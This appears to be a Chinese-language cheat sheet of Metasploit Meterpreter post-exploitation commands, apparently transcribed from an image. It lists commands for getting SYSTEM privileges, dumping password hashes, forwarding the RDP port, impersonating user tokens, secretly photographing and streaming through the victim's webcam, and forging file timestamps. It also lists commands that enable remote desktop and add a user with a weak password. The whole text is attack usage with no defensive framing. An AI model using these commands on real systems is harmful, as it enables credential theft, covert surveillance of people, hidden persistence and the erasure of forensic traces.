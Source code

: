 ```

提权
getsystem


获取hash
hashdump

使用Credcollect转储hash值
run credcollect 


创建端口转发
portfwd add -l 6666 -p 3389 -r 127.0.0.1 #将目标机的3389端口转发到本地6666端口

删除端口转发
portfwd delete -l <portnumber> -p <portnumber> -r <Target IP> 

在目标主机上搜索文件
search -f *.txt

查看当前用户
getuid

获取主机信息
sysinfo

模拟任意用户(token操作)
use incognito 
list_tokens -u 
impersonate_token “Machine\\user”

webcam_list  #查看摄像头
webcam_snap   #通过摄像头拍照
webcam_stream   #通过摄像头开启视屏

timestomp伪造时间戳
timestomp C:// -h   #查看帮助
timestomp -v C://2.txt   #查看时间戳
timestomp C://2.txt -f C://1.txt #将1.txt的时间戳复制给2.txt


enable_rdp脚本开启3389
run post/windows/manage/enable_rdp  #开启远程桌面
run post/windows/manage/enable_rdp USERNAME=www2 PASSWORD=123456 #添加用户
run post/windows/manage/enable_rdp FORWARD=true LPORT=6662  #将3389端口转发到6662
```